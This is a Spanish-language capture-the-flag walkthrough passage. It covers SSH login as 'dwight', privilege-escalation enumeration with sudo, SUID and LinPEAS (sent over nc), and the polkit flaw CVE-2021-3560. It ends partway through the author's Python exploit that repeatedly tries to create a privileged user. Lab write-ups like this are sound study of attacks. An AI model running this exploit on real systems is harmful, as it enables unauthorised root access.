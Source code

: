> Este archivo _.env_, como menciona su nombre, sirve para asignar variables de entorno para la elaboración de un proyecto
{: .prompt-tip}

Recordamos que el puerto **22 (ssh)** está abierto y que en este chat nos encontrabamos como el usuario `dwight` (lo sabemos si miramos el archivo /etc/passwd con el bot), entonces usando la contraseña nos logeamos y pa-dentro:

![Foothold](foothold.png){: .shadow }

## Privilege Escalation

* * *

Ya dentro como el usuario `dwight` solo nos queda escalar privilegios a `root` entonces hacemos una ejecución básica de comandos para listar binarios que podemos ejecutar como **SUDO** `sudo -l` o que tengan el permiso **SUID** `find / -perm 4000 2>/dev/null`:

![SUDO-SUID](sudo_suid.png){: .shadow }

Lamentablemente no logramos nada, así que recurrimos a la herramienta [LinPEAS](https://github.com/carlospolop/PEASS-ng) que nos permite buscar diferentes rutas a explotar y poder **escalar privilegios en el sistema**. Una vez instalado lo pasamos a la máquina víctima con `nc`:

![NcTransferLin](nc_transfer.png){: .shadow }

Ahora solo le damos permisos de ejecución `chmod +x linpeas.sh`, ejecutamos `./linpeas.sh` y de primeras encontramos una vulnerabilidad para `sudo 1.8.29`:

![CVELinPEAS](cve_linpeas.png){: .shadow }

Esta vulnerabilidad [_CVE-2021-3560_](https://www.hackplayers.com/2021/06/escalado-de-privilegios-mediante-polkit.html) se basa en el servicio **polkit**, el cuál se encarga de _gestionar la autorización entre los procesos sin privilegios hacia los privilegiados_.

Para la explotación hice un script en `python` que nos proporcionará las credenciales del usuario con privilegios:

```python
#!/usr/bin/python3

import sys, signal, time, subprocess, shlex, random, pdb, os, pwd

# colors
def inRed(s): print("\033[91m {}\033[00m" .format(s), end="")
def inGreen(s): print("\033[92m {}\033[00m" .format(s), end="")
def inYellow(s): print("\033[93m {}\033[00m" .format(s), end="")
def inMagenta(s): print("\033[95m {}\033[00m" .format(s), end="")

# ctrl + c
def signal_handler(signum, frame):
    inRed("\n[!] Exiting..."); sys.exit()

signal.signal(signal.SIGINT, signal_handler)

# create user
def createUser(default_user):
    time.sleep(2)
    exit_user, counter = False, 0
    inYellow("\n[+] Trying to create default user...\n\n")
    while not exit_user:
        # start and kill the process until the user is created
        time.sleep(0.5)
        inYellow("\t[-] Attempt"); inRed(f"{counter}\n")
        counter += 1
```